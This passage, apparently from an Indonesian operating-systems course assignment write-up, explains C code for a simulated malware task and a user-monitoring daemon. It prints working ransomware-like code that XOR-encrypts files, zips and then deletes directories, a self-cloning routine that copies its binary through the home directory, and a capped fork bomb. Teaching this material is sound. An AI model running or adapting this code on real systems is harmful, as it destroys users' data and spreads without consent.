        time_t timestamp = time(NULL);
        struct dirent *entry;

        while ((entry = readdir(dir)) != NULL) {
            if (entry->d_name[0] == '.' || entry->d_name == "runme") continue;
            if (entry->d_type == DT_REG) xor_file(entry->d_name, timestamp);
            if (entry->d_type == DT_DIR) {
                char zipname[PATH_MAX];
                snprintf(zipname, sizeof(zipname), "%s.zip", entry->d_name);

                char *zip_args[] = {"zip", "-qr", zipname, entry->d_name, NULL};
                run_command("/bin/zip", zip_args);

                xor_file(zipname, timestamp);

                char *rm_args[] = {"rm", "-rf", entry->d_name, NULL};
                run_command("/bin/rm", rm_args);
            }
        }

        closedir(dir);
        sleep(30);
    }
    return 0;
}
```

Point **c - d**

Untuk poin c adalah melakukan simulasi _propagation_ malware, dimana melakukan self clone binarynya sendiri untuk disebarkan diarea home directory korban.

Pertama membuat function `cloneFile` tentu saja ini digunakan untuk melakukan clone sebuah file ke target directorynya, secara recursive hingga ke dalam.

```c
int cloneFile(char *baseDirpath, char *filename, FILE *file) {
    DIR *dir = opendir(baseDirpath);
    char path[PATH_MAX];

    if (!dir) return 1;

    snprintf(path, sizeof(path), "%s/%s", baseDirpath, filename);
    FILE *dest = fopen(path, "wb");
    if (!file || !dest) {
        closedir(dir);
        return 1;
    }
    char buffer[1024];
    size_t bytes;
    while ((bytes = fread(buffer, 1, sizeof(buffer), file)) > 0) {
        fwrite(buffer, 1, bytes, dest);
    }
    fclose(dest);
    chmod(path, S_IRUSR | S_IWUSR | S_IXUSR | S_IRGRP | S_IXGRP | S_IROTH | S_IXOTH);

    struct dirent *entry;
    char newpath[PATH_MAX];
    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;
        if (entry->d_type == DT_REG) continue;
        if (entry->d_type == DT_DIR) {
            snprintf(newpath, sizeof(newpath), "%s/%s", baseDirpath, entry->d_name);
            cloneFile(newpath, filename, file);
        }
    }

    closedir(dir);
    return 0;
}
```

Untuk function `trojan` adalah handler process untuk melakukan `propagation` dari malwarenya, dimana akan melakukan copy dari self filenya sendiri ke home directory user saat ini secara recursive.

```c
int trojan() {
    char self[1024];
    ssize_t len = readlink("/proc/self/exe", self, sizeof(self) - 1);
    if (len == -1) return 1;
    self[len] = '\0';

    char *filename = basename(self);
    char *home = getenv("HOME");
    if (!home) {
        struct passwd *pw = getpwuid(getuid());
        if (pw) {
            home = pw->pw_dir;
        }
    }

    FILE *fp = fopen(self, "rb");
    if (!fp) {
        fclose(fp);
        return 1;
    };

    while (1) {
        cloneFile(home, filename, fp);
        sleep(30);
    }

    fclose(fp);
    return 0;
}
```

Untuk poin d bisa dilihat bahwa penerapan sleep dan while loop sudah menjadi proof bahwa process ini akan tetap hidup diinterval 30 detik.

Point **e - h**

Untuk poin e dan h ditujukan untuk melakukan simulasi `fork bomb` dimana program akan melakukan forking process secara terus menerus. Pada aslinya fork bomb tidak akan melakukan batasan berapa forking process yang akan dilakukan, namun pada kasus ini dibatasi hanya 10 process saja.

Yang pertama dibuat adalah function `mining` dimana ini akan melakukan write hex value dengan datetime ke file untuk seolah-olah melakukan mining process.

```c
int mining(char *argv0, char *args[]) {
    while (1) {
        srand(time(NULL) + getpid());
        int sleep_time = rand() % 28 + 3;

        char random_hex[65];
        for (int i = 0; i < 64; i++) {
            int random_char = rand() % 16;
            if (random_char < 10) {
                random_hex[i] = '0' + random_char;
            } else {
                random_hex[i] = 'a' + (random_char - 10);
            }
        }
        random_hex[64] = '\0';

        time_t now = time(NULL);
        struct tm *tm_info = localtime(&now);
        char datetime[32];
        strftime(datetime, sizeof(datetime), "%Y-%m-%d %H:%M:%S", tm_info);

        FILE *log = fopen("/tmp/.miner.log", "a");
        if (log) {
            fprintf(log, "[%s][%s] %s\n", datetime, args[0], random_hex);
            fclose(log);
        }

        sleep(sleep_time);
    }
    return 0;
}
```

Kemudian function `rodok` ini adalah sebagai handler process dari `fork bomb` tadi dimana akan melakukan spawning process dan melakukan mining ke file yang dituju. Dengan max process nya sebanyak 10 process.

```c
int rodok(char *argv0, char *args[]) {
    int MAX_MINER = 10;
    pid_t pids[MAX_MINER];
    int status;

    char miner_name[128];
    char log_miner_name[64];
    for (int i = 1; i <= MAX_MINER; i++) {
        snprintf(miner_name, sizeof(miner_name), "mine-crafter-%d", i);
        snprintf(log_miner_name, sizeof(log_miner_name), "Miner %d", i);

        char *values[1] = {log_miner_name};
        spawn_process(argv0, miner_name, mining, values);
    }

    for (int i = 0; i < MAX_MINER; i++) wait(&status);
    return 0;
}
```

#### Output

Menjalankan program untuk pertama kalinya.


Proof bahwa program berhasil berjalan secara daemon process dan dengan tree process sesuai dengan soal.


1. Enkripsi file (zip mode)

Kondisi ketika proses enkripsi belum dilakukan


Kondisi setelah proses enkripsi mulai berjalan


2. Melakukan clone binary nya sendiri

Kondisi ketika proses _propagation_ belum dilakukan


Kondisi ketika proses _propagation_ mulai berjalan


3. Fork bomb

Kondisi proof dari log sebelum proses fork bomb dilakukan


Kondisi dari log setelah proses fork bomb berjalan


#### Kendala

Tidak ada kendala

### Soal 4

#### Penjelasan

**a. Mengetahui semua aktivitas user**

Di bagian ini kita harus menunjukkan proses yang berjalan pada user.

Pertama kita buat `fork` untuk memisahkan prosesnya. Lalu untuk child process (pid == 0) akan menjalankan argumen yang tersimpan pada array `args`, argumen tersebut lalu akan dieksekusi oleh `execvp("ps", args);`. Untuk parent process akan akan menunggu child process berakhir sebelum menjalankan `write_log` untuk mencatat proses ke `debugmon.log`.

```c
void show_process(const char *username){
    pid_t pid = fork();

    if (pid == 0) {
        char *args[] = {"ps", "-u", (char *)username, "-o", "pid,comm,%cpu,%mem", NULL};
        execvp("ps", args);
        exit(EXIT_FAILURE);
    } else if (pid > 0){
        wait(NULL);
        write_log("list", "RUNNING");
    }
}
```

**b. Memasang mata-mata dalam mode daemon**

Di bagian ini kita diharuskan untuk membuat proses daemon dan mencatatnya ke dalam log.

Pertama-tama kita membuat `fork`. Parent process akan dipisahkan dari terminal sejak kita hanya memerlukan child process. Selanjutnya kita membuat file yang akan menjadi wadah kita menyimpan pid dan membuka file tersebut untuk menyimpan nilai pid ke dalam file. Setelah itu kita menjalankan `setsid();` untuk membuat session baru (sejak parent process terbunuh) dan mengubah direktori user. Agar daemon tidak terikat ke terminal, kita tutup proses input/output/error. Terakhir, kita mencatat proses daemon yang sedang berjalan setiap 5 detik dengan `sleep(5);`.

```c
void run_daemon(const char *username) {
    write_log("daemon", "RUNNING");
    pid_t pid = fork();

    if (pid < 0) {
        exit(EXIT_FAILURE);
    }  if (pid > 0) {
        exit(EXIT_SUCCESS);
    }

    char pid_file[64];
    snprintf(pid_file, sizeof(pid_file), "daemon_%s.pid", username);
    FILE *fp = fopen(pid_file, "w");
    if (fp) {
    fprintf(fp, "%d", getpid());
    fclose(fp);
    }

    setsid();
    if (chdir("/") < 0) exit(EXIT_FAILURE);

    fclose(stdin);
    fclose(stdout);
    fclose(stderr);

    while (1) {
        write_log("daemon", "RUNNING");
        show_process(username);
        sleep(5);
    }
}
```

**c. Menghentikan pengawasan**

Di bagian ini kita diharuskan menghentikan daemon yang sedang berjalan.

Pertama membuka & membaca file yang menyimpan nilai pid dari daemon. Lalu menjalankan `kill` untuk membunuh pid dalam file (jika berhasil, maka file juga akan dihapus). Terakhir proses akan dicatat ke log di akhir file.

```c
void stop_daemon(const char *username) {
    char pid_file[64];
    snprintf(pid_file, sizeof(pid_file), "daemon_%s.pid", username);

    FILE *fp = fopen(pid_file, "r");
    if (!fp) {
        printf("Daemon user %s not found.\n", username);
        return;
    }

    pid_t pid;
    fscanf(fp, "%d", &pid);
    fclose(fp);

    if (kill(pid, SIGTERM) == 0) {
        printf("Daemon user %s successfuly stopped.\n", username);
        remove(pid_file);
    } else {
        perror("Failed to stopped daemon user %s");
    }
    write_log("stop", "RUNNING");
}
```

**d. Menggagalkan semua proses user yang sedang berjalan**

Di bagian ini kita diharuskan untuk menggagalkan seluruh proses user.

Pertama-tama kita buat `fork`; Pada child process, kita akan menjalankan argumen untuk membunuh seluruh proses pada user yang dituju (yang dibungkus array args), lalu argumen tersebut dieksekusi oleh `execvp("killall", args);`. Pada parent process, kita akan menunggu child process berakhir sebelum mencatat proses ke log dan mengirim pesan sukses.

```c
void fail_user(const char *username) {
    pid_t pid = fork();

    if (pid == 0) {
        char *args[] = {"killall", "-9", "-u", (char *)username, NULL};
        execvp("killall", args);
        exit(EXIT_FAILURE);
    } else if (pid > 0) {
        wait(NULL);
        write_log("fail", "FAILED");
        printf("Successfuly stop all %s process\n", username);
    }
}
```

**e. Mengizinkan user untuk kembali menjalankan proses**

Di bagian ini kita me-revert kembali proses user yang digagalkan.

Pertama-tama kita buat `fork`; Pada child process, kita menjalankan argumen untuk mengembalikan user yang kita kill (dibungkus array args), lalu dieksekusi oleh `execvp("su", args)`. Pada parent process, akan menunggu child process berakhir sebelum mencatat proses ke log dan mengirim pesan sukses.

```c
void revert_user(const char *username) {
    pid_t pid = fork();

    if (pid == 0) {
        char *args[] = {"su", "-", (char *)username, NULL};
        execvp("su", args);
        exit(EXIT_FAILURE);
    } else if (pid > 0) {
        wait(NULL);
        write_log("revert", "RUNNING");
        printf("Successfully reverted user %s process\n", username);
    }
}
```

**f. Mencatat ke dalam file log**

Di bagian ini kita diharuskan mencatat proses yang berlangsung selama menjalankan debugmon ke dalam file dengan format nama debugmon.log.

pertama kita membuka file log (jika belum buat akan terbuat otomatis) lalu `time_t now = time(NULL);` akan mengambil waktu saat ini (dalam bentuk detik) dan `struct tm *t = localtime(&now);` akan mengubahnya menjadi waktu lokal. waktu lalu akan diubah menjadi string oleh ` strftime` dan dipanggil oleh `fprintf` sesuai format yang ditentukan.

```c
void write_log(const char *process_name, const char *status) {
    FILE *log_file = fopen("/home/asuramawaru/debugmon.log", "a");
    if (!log_file) {
        perror("Failed to open debugmon.log");
        return;
    }

    time_t now = time(NULL);
    struct tm *t = localtime(&now);
    char date[32];
    char time[32];

    strftime(date, sizeof(date), "%d:%m:%Y", t);
    strftime(time, sizeof(time), "%H:%M:%S", t);

    fprintf(log_file, "[%s]-[%s]_%s_STATUS(%s)\n", date, time, process_name, status);
    fclose(log_file);
}
```

#### output

1. menunjukan semua list proses user



2. melakukan daemon pada user


Daemon akan tercatat ke log setiap 5 detik.



3. menghentikan daemon




4. menghentikan proses user



5. mengembalikan proses user



6. mencatat penggunaan debugmon ke dalam file log



```

```
